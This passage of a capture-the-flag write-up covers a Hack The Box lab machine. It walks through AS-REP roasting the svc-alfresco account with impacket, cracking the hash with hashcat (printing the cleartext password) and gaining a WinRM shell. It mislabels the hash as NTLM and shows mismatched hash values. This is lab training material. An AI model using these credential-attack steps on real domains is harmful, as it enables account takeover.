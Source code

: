 ![Kerberos authentication](/images/kerberos.png)

# Foothold
Since pre-authentication is disabled for `svc-alfresco`, we can use the `GetNPUsers` impacket script to request the TGT ticket and dump the user's NTLM hash.
```shell-session
knytecode@parrot:~$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:92464b43f3a8f3bfd1d4b56c7e587c57
```
We can now use hashcat to crack the obtained NTLM hash, revealing the password as `s3rvice`.
```
knytecode@parrot:~$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:6d1c55b344fc86ea5010d3966fb68b9f:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:6d1c55b344fc86...ce88f5
Time.Started.....: Sun Jul 11 18:08:19 2021 (3 secs)
Time.Estimated...: Sun Jul 11 18:08:22 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1302.8 kH/s (6.14ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096000/14344385 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> s/nd/0s
```
Since port 5985 is open, we can use Evil-WinRM to check if the user can login remotely over WinRM. This works, giving us a remote powershell and the user flag.
```
```